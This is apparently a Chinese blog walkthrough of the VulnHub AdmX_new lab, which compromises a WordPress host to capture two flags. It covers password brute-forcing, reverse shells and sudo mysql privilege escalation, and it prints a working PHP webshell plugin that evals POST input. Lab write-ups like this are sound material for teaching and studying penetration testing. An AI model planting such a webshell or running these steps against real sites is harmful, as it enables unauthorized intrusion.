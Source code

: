 ```yaml
---
title: VulnHub靶场 AdmX_new
description: VulnHub靶场 AdmX_new WP
pubDate: 11 06 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 渗透测试
---
```


## 说明

靶场里存在两个 flag

## 主机发现

进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-1.webp)

得到目标机器 IP 为 `192.168.217.144`，进行端口服务发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-5.webp)

发现 80 端口，运行 HTTP 服务，访问目标页面。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-2.webp)

是一个 Ubuntu 下 Apache 的默认页面

## Web 后台登录

对该网站进行目录扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-3.webp)

发现如下目录，访问 `http://192.168.217.144//tools/adminer.php`，得到数据库连接界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-4.webp)

访问 `http://192.168.217.144/wordpress/` ，经过漫长的访问，才出现一个基本的 Web 框架

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-6.webp)

不对劲，查看网络情况

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-7.webp)

IP 是硬编码写死的，通过 burp 拦截，把这个 IP 改成真实的 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-8.webp)

然后再进行测试，发现可以正常访问。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-9.webp)

访问 `http://192.168.217.144/wordpress/wp-login.php` 来到 wordpress 的登录界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-10.webp)

尝试弱口令登录，发现存在 admin 用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-11.webp)

利用 burp 对 admin 用户进行密码爆破，得到密码为 `adam14`，成功登录后台

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.webp)

## Wordpress 插件 getshell

在主题模板上放个木马，这里选择在 404 页面放了个一句话木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-13.webp)

更新页面，结果报错失败了

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-14.webp)

Wordpress 支持上传 ZIP 格式的插件包。我们可以写一个符合 Wordpress 格式的 webshell 然后让网站以插件加载它。

```php
<?php
/*
Plugin Name: Webshell Plugin
Description: Wordpress WebShell
Version: 1.0
Author: trtyr
*/

@eval($_POST['cmd']);
?>
```

然后将其打包成 zip，上传

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-15.webp)

直接蚁剑连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-16.webp)``

## 内网渗透

我们现在拿到了蚁剑的 shell，上传一个 MSF 木马，再上线一下 MSF

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-17.webp)

主机里存在两个 flag。我们先去看看 `/home` 目录下几个用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-18.webp)

存在一个 `wpadmin` 用户，在文件夹内发现 `local.txt`，结果没有权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-19.webp)

我们回去看一下网站的数据库配置文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-20.webp)

得到一个用户名密码 `Wp_Admin#123`，试试能不能登录数据库

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-21.webp)

数据库登录失败，尝试拿这个密码登录用户。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-22.webp)

登录失败，我们还知道网站密码是 `adam14`，挨个尝试，结果用户登录上去了。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-23.webp)

在当前用户下，通过 curl 下载一个新的 MSF 木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-24.webp)

没有写入权限，我们再上线一个 nc。结果这里是个大坑，试了好几遍都不行，后来发现主机有 python3，拿 python 去反弹了 shell。

拿到 shell 后直接去看那个 `local.txt`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-25.webp)

得到第一个 flag。然后看一下这个用户能不能执行 `sudo -l`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-26.webp)

可以发现可以执行 `/usr/bin/mysql -u root -D wordpress -p` 命令，尝试使用 `sudo` 运行该命令。经过测试，密码又是 `adam14`，拿到数据库 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-27.webp)

使用 `system` 命令直接上 bash

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-28.webp)

拿到 root 权限，去 root 目录下，拿到第二个 flag

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-29.webp)

